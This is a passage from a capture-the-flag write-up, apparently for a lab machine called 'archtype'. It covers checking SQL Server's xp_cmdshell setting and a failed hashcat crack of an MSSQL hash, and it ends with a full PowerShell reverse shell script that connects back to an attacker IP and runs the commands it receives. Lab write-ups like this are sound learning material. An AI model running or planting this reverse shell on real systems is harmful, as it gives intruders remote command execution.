 ```sql
SELECT CONVERT(INT, ISNULL(value, value_in_use)) AS config_value FROM sys.configurations WHERE name = 'xp_cmdshell'
```

![941140546299.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932959096/MoPcDfWAu.png)

> The Windows process spawned by xp_cmdshell has the same security rights as the SQL Server service account

* [xp_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql)

Perfect!

At that time, `hashcat` finished working:

```txt
Session..........: archtype                      
Status...........: Exhausted
Hash.Name........: MSSQL (2012, 2014)
Hash.Target......: 0x0200100bac9600580c3c299ed7ff81d77bcbe50b830ca6030...a3ce63
Time.Started.....: Wed Jun 16 19:24:08 2021 (9 secs)
Time.Estimated...: Wed Jun 16 19:24:17 2021 (0 secs)
Guess.Base.......: File (/usr/wl/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1523.5 kH/s (1.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 6538/14344385 (0.05%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[213134356173382a] -> $HEX[042a0337c2a156616d6f732103]
Started: Wed Jun 16 19:23:58 2021
Stopped: Wed Jun 16 19:24:18 2021

```
And as I was expecting from the time of it took - this is not what we had to do.

[Back to top](#contents) ⤴

# Exploitation (user shell)

With that in the hands, we could try to get the reverse shell.

```ps1
# cmd.ps1

$TCPClient = New-Object Net.Sockets.TCPClient('10.10.XX.XXX', 4445);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()
```

